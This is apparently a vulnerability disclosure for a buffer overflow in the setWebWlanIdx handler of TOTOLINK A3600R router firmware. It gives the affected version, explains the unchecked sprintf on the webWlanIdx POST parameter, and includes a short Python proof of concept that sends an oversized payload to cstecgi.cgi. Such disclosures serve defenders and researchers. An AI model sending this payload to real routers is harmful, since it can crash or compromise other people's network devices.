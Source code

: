 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setWebWlanIdx ` function. The `v5` variable receives the `webWlanIdx` parameter from a POST request. However, since the user can control the input of `webWlanIdx`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240721015317125](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015317125.png)

## POC

```python
/import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"webWlanIdx":"a"*0x1000,"topicurl":"setting/setWebWlanIdx"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
